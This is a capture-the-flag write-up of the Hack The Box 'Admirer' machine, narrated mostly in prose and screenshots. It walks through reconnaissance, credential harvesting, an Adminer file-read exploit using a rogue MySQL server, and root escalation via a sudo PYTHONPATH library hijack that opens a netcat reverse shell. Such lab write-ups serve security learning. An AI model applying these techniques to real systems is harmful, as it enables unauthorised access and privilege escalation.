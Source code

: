 ```yaml
---
layout: post
title: Admirer walkthrough HTB 
---
```



![](/images/2020-09-25-admirer/0.png)

Admirer is an easy Linux box which was interesting to root!! Let’s start with adding the IP into /etc/hosts file.

Now we will initiate a nmap scan for reconnaissance.


![](/images/2020-09-25-admirer/1.png)
Three ports seem to be open. Like any other hackers I tried to log in anonymously to ftp but failed.

So, I decided to look into web side of things.

![](/images/2020-09-25-admirer/2.png)
The source of the page seems to have nothing interesting.

From the nmap scan I know there is a robots.txt.

Woooo!! Interesting!! Let’s fuzz the /admin-dir


![](/images/2020-09-25-admirer/3.png)
I used Gobuster for this, however, tools like wfuzz, ffuz etc. can be used as well.

![](/images/2020-09-25-admirer/4.png)
Looks like two files is found
![](/images/2020-09-25-admirer/5.png)


![](/images/2020-09-25-admirer/6.png)

Wow !! we got creds!! Of course, I logged into ftp now.
![](/images/2020-09-25-admirer/7.png)

Okay there is a .sql file and a compressed file, I used GET to download it to my local machine.

The .sql wasn’t a valid database file  

Now we will look into the compressed files and there were a lot of credentials.

![](/images/2020-09-25-admirer/8.png)

![](/images/2020-09-25-admirer/9.png)

Few more php files in the utility-scripts. 

Now I spend some time using these creds to ssh into the server and horribly failed. 

Okay what can we do now? we can’t log into sql directly because sql port is not open from the nmap scan.

Umm let’s try and navigate to utility-script from web browser !! it said forbidden which means it’s a valid directory, now we will try all the php names, but nothing worked!! 

At this point, we will use gobuster again to fuzz directory and we hit jackpot with adminer.php. Now things started to make sense, adminer – admirer (word play lol).

Now I tried to login with the creds we have from the compressed files


![](/images/2020-09-25-admirer/10.png)

Fail!!

Now I googled vulnerabilities for Adminer version 4.6.2 : read this to understand how to exploit this vulnerability ( https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool )



Essentially what I had to do is to install mysql on my machine, create a database, create a table with a single column, login to my database on the web Adminer and from there I could dump any local file.



![](/images/2020-09-25-admirer/11.png)

 I created a database name admirer, created a user sa and assigned a password and granted privilege.



![](/images/2020-09-25-admirer/12.png)
Now in order to connect this remotely we will have to change the bind address which can be found at : /etc/mysql/mysql.conf.d

Change the bind address to 0.0.0.0 


![](/images/2020-09-25-admirer/13.png)

Now restart mysql server:
```
Systemctl restart mysql
```
Log in with the user we created sa:sa_admirer

![](/images/2020-09-25-admirer/14.png)

Now we can use this creds to log into : http://10.10.10.187/utility-scripts/adminer.php?server=10.10.15.249&username=sa

(10.10.15.249 = tun0 IP )


![](/images/2020-09-25-admirer/15.png)


So now that we are in, I tried to load /etc/passwd file. However, it failed because of the restriction. 



![](/images/2020-09-25-admirer/16.png)

So maybe we can open index.php?

![](/images/2020-09-25-admirer/17.png)
We just have to supply the full path, and wallah, it’s a succeeded!!   

![](/images/2020-09-25-admirer/18.png)

Now I did “select * from ad;” (ad is the table I created from mysql server)

And we get all the content of index.php which have password and username for waldo.

![](/images/2020-09-25-admirer/19.png)

Now we can try to ssh with this cred.
Hurray !! we got our user!!


![](/images/2020-09-25-admirer/20.png)

Now is the time for PRIVILEGE ESCALATION!!

First things first, use sudo -l command !!



![](/images/2020-09-25-admirer/21.png)

Looks like /opt/scripts/admin_task.sh is running as root, so I took a look into what it does and turns out the script have number of functions and the most interesting piece of code is:

```
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```
The script is calling backup.py file as root which means any actions from the python file have the same root privilege. Now the question is how to hijack the file because the file and the directory is not writable!! 

![](/images/2020-09-25-admirer/22.png)

![](/images/2020-09-25-admirer/23.png)

I found this wonderful article that explains python library hijacking.

https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

The backup.py file is calling shutil, so we will have to create a fake shutil file and make sure that python path is getting called from where we want 

![](/images/2020-09-25-admirer/24.png)

So, I created the file in /tmp/SASHUTIL and since the file is using make_archive I defined it in my fake file. I used OS library and nc for the reverse connect!!

Now I just have to make sure to run admin_task.sh file with our fake path

```
sudo PYTHONPATH=/tmp/SASHUTIL /opt/scripts/admin_tasks.sh
``` 

![](/images/2020-09-25-admirer/25.png)

And we got a connect back !! and yes, make sure to set up a listener!!


